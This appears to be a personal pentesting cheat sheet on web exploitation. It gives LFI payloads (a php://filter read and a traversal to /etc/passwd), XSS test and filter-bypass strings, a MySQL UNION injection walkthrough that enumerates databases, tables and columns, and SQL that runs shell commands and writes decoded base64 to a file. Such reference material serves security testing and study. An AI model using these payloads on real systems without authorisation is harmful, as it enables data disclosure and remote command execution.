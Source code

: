 # Exploitation
Tools and options I use for reconnaissance:
- [Web](#web)
  - [LFI](#lfi)
  - [XSS](#xss)
  - [SQL Injection](#sql-injection)

----

## Web
Techniques and tools I use for web exploitations.

### LFI 
###### LFI = Local File Inclusion.  

Example scenario:   
```bash
http://<target>/index.php?parameter=value
```

Validate LFI:   
```bash
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
# OR
http://<target>/index.php?page=../../../../../../../../etc/passwd
```

Useful links:   
- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)


### XSS
Verify XSS:  
```javascript
<script>alert('XSS')</script>

//OR
"><script>alert('XSS')</script>">

//OR
<script>alert(String.fromCharCode(88,83,83))</script>
```

Bypass filter of tag script:   
```javascript
" onload="alert(String.fromCharCode(88,83,83))

//OR
" onload="alert('XSS')
```

**nope** is not a valid image source, so this cause an error an triggers the `onerror`.
```javascript
<img src='nope' onerror=alert("XSS")>
```

Useful links:  
- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)


### SQL Injection
###### All examples are with MySQL syntax!
Verify SQL injection: add a simple quote`'`. 
```bash
# Examples
http://target.com/path/?id=5'
```

Sorting columns to find maximum column:
```bash
http://target.com/path/?id=-1 order by 1
http://target.com/path/?id=-1 order by 2
http://target.com/path/?id=-1 order by 3
http://target.com/path/?id=-1 order by 4
# ...
# Try until it stops returing errors, now we have the column count
```

Verify injectable column:  
```bash
http://target.com/path/?id=-1 union select 1, 2, 3, 4
# Select count is depending on the table, maybe try the previous example
# One of the columns will be printed with the respective number
```

Discover various informations:  
```bash
# Discover version
http://target.com/path/?id=-1 union select 1, 2, 3, version()

# Discover database name
http://target.com/path/?id=-1 union select 1, 2, 3, database()

# Discover logged in usernames
http://target.com/path/?id=-1 union select 1, 2, 3, current_user()

# Discover databases
http://target.com/path/?id=-1 union select 1, 2, 3, schema_name from information_schema.schemata

# Discover table names of database
http://target.com/path/?id=-1 union select 1, 2, 3, table_name from information_schema.tables where table_schema="database_name"

# Discover columns of database
http://target.com/path/?id=-1 union select 1, 2, 3, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```

Execute shell commands:
```sql
# Example usage
SELECT trim(trailing char(0x00) from exec_cmd("echo 'Hello World'"));

# Decode base64 string and write to file
SELECT trim(trailing char(0x00) from exec_cmd("echo 'SGVsbG8gV29ybGQK' | base64 -d >> /tmp/test.txt"));
```
